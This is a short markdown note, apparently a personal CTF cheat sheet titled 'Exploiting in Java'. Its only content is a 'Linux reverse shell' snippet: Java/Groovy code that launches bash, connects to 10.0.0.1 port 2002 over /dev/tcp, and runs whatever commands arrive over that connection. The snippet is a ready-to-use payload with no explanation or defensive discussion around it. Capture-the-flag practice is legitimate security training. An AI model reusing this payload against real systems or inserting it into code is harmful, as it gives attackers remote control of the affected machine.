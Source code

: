 ```yaml
---
layout: note
title: Exploiting in Java
date: 2015-03-11 09:57:01 -0600
categories: CTF
---
```


## Linux reverse shell

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
